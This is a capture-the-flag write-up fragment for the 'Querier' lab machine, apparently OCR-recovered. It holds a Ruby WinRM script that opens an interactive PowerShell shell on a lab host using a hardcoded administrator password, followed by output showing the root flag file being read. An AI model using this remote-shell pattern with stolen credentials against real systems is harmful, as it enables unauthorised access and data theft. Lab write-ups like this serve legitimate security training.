 ```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.125:5985/wsman',
  user: 'querier\administrator',
  password: 'MyUnclesAreMarioAndLuigi!!1!',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

```
# ruby querier.rb
PS querier\administrator@QUERIER Documents> whoami
querier\administrator
PS querier\administrator@QUERIER Documents> type c:\users\administrator\desktop\root.txt
b19c37...
```
